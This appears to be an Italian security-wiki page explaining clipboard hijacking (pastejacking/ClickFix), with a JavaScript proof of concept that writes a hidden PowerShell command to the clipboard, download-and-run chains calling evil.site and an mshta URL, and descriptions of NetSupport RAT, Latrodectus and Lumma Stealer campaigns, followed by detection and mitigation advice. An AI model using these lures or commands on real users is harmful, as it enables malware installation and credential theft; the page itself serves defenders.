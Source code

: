 # Attacchi di Clipboard Hijacking (Pastejacking)

{{#include ../../banners/hacktricks-training.md}}

> "Non incollare mai nulla che non hai copiato tu stesso." – consiglio vecchio ma ancora valido

## Panoramica

Il clipboard hijacking – noto anche come *pastejacking* – sfrutta il fatto che gli utenti copiano e incollano routine comandi senza ispezionarli. Una pagina web malevola (o qualsiasi contesto capace di eseguire JavaScript come un'applicazione Electron o Desktop) inserisce programmaticamente testo controllato dall'attaccante negli appunti di sistema. Le vittime sono incoraggiate, normalmente da istruzioni di ingegneria sociale accuratamente elaborate, a premere **Win + R** (finestra Esegui), **Win + X** (Accesso rapido / PowerShell), o aprire un terminale e *incollare* il contenuto degli appunti, eseguendo immediatamente comandi arbitrari.

Poiché **nessun file viene scaricato e nessun allegato viene aperto**, la tecnica elude la maggior parte dei controlli di sicurezza delle e-mail e dei contenuti web che monitorano allegati, macro o esecuzione diretta di comandi. L'attacco è quindi popolare nelle campagne di phishing che distribuiscono famiglie di malware di consumo come NetSupport RAT, Latrodectus loader o Lumma Stealer.

## Prova di Concetto in JavaScript
```html
<!-- Any user interaction (click) is enough to grant clipboard write permission in modern browsers -->
<button id="fix" onclick="copyPayload()">Fix the error</button>
<script>
function copyPayload() {
const payload = `powershell -nop -w hidden -enc <BASE64-PS1>`; // hidden PowerShell one-liner
navigator.clipboard.writeText(payload)
.then(() => alert('Now press  Win+R , paste and hit Enter to fix the problem.'));
}
</script>
```
Le campagne più vecchie utilizzavano `document.execCommand('copy')`, quelle più recenti si basano sull'**Clipboard API** asincrona (`navigator.clipboard.writeText`).

## Il Flusso ClickFix / ClearFake

1. L'utente visita un sito con errori di battitura o compromesso (ad es. `docusign.sa[.]com`)
2. Il JavaScript **ClearFake** iniettato chiama un helper `unsecuredCopyToClipboard()` che memorizza silenziosamente una riga di comando PowerShell codificata in Base64 negli appunti.
3. Le istruzioni HTML dicono alla vittima di: *“Premere **Win + R**, incollare il comando e premere Invio per risolvere il problema.”*
4. `powershell.exe` viene eseguito, scaricando un archivio che contiene un eseguibile legittimo più un DLL malevolo (classico sideloading di DLL).
5. Il loader decripta fasi aggiuntive, inietta shellcode e installa persistenza (ad es. attività pianificata) – eseguendo infine NetSupport RAT / Latrodectus / Lumma Stealer.

### Esempio di Catena NetSupport RAT
```powershell
powershell -nop -w hidden -enc <Base64>
# ↓ Decodes to:
Invoke-WebRequest -Uri https://evil.site/f.zip -OutFile %TEMP%\f.zip ;
Expand-Archive %TEMP%\f.zip -DestinationPath %TEMP%\f ;
%TEMP%\f\jp2launcher.exe             # Sideloads msvcp140.dll
```
* `jp2launcher.exe` (Java WebStart legittimo) cerca nella sua directory `msvcp140.dll`.
* Il DLL malevolo risolve dinamicamente le API con **GetProcAddress**, scarica due binari (`data_3.bin`, `data_4.bin`) tramite **curl.exe**, li decripta usando una chiave XOR rotante `"https://google.com/"`, inietta il codice shell finale e decomprime **client32.exe** (NetSupport RAT) in `C:\ProgramData\SecurityCheck_v1\`.

### Latrodectus Loader
```
powershell -nop -enc <Base64>  # Cloud Identificator: 2031
```
1. Scarica `la.txt` con **curl.exe**
2. Esegue il downloader JScript all'interno di **cscript.exe**
3. Recupera un payload MSI → deposita `libcef.dll` accanto a un'applicazione firmata → sideloading DLL → shellcode → Latrodectus.

### Lumma Stealer tramite MSHTA
```
mshta https://iplogger.co/xxxx =+\\xxx
```
La chiamata **mshta** avvia uno script PowerShell nascosto che recupera `PartyContinued.exe`, estrae `Boat.pst` (CAB), ricostruisce `AutoIt3.exe` tramite `extrac32` e concatenazione di file e infine esegue uno script `.a3x` che esfiltra le credenziali del browser a `sumeriavgv.digital`.

## Rilevamento e Caccia

I blue team possono combinare il monitoraggio degli appunti, la creazione di processi e la telemetria del registro per individuare l'abuso del pastejacking:

* Registro di Windows: `HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` mantiene una cronologia dei comandi **Win + R** – cerca voci insolite in Base64 / offuscate.
* ID Evento di Sicurezza **4688** (Creazione Processo) dove `ParentImage` == `explorer.exe` e `NewProcessName` in { `powershell.exe`, `wscript.exe`, `mshta.exe`, `curl.exe`, `cmd.exe` }.
* ID Evento **4663** per la creazione di file sotto `%LocalAppData%\Microsoft\Windows\WinX\` o cartelle temporanee subito prima dell'evento 4688 sospetto.
* Sensori degli appunti EDR (se presenti) – correlare `Clipboard Write` seguito immediatamente da un nuovo processo PowerShell.

## Mitigazioni

1. Indurimento del browser – disabilitare l'accesso in scrittura agli appunti (`dom.events.asyncClipboard.clipboardItem` ecc.) o richiedere un gesto dell'utente.
2. Consapevolezza della sicurezza – insegnare agli utenti a *digitare* comandi sensibili o incollarli prima in un editor di testo.
3. Modalità Linguaggio Constraining di PowerShell / Politica di Esecuzione + Controllo delle Applicazioni per bloccare one-liner arbitrari.
4. Controlli di rete – bloccare le richieste in uscita verso domini noti per pastejacking e malware C2.

## Trucchi Correlati

* **Discord Invite Hijacking** spesso abusa dello stesso approccio ClickFix dopo aver attirato gli utenti in un server malevolo:

{{#ref}}
discord-invite-hijacking.md
{{#endref}}

## Riferimenti

- [Fix the Click: Preventing the ClickFix Attack Vector](https://unit42.paloaltonetworks.com/preventing-clickfix-attack-vector/)
- [Pastejacking PoC – GitHub](https://github.com/dxa4481/Pastejacking)

{{#include ../../banners/hacktricks-training.md}}
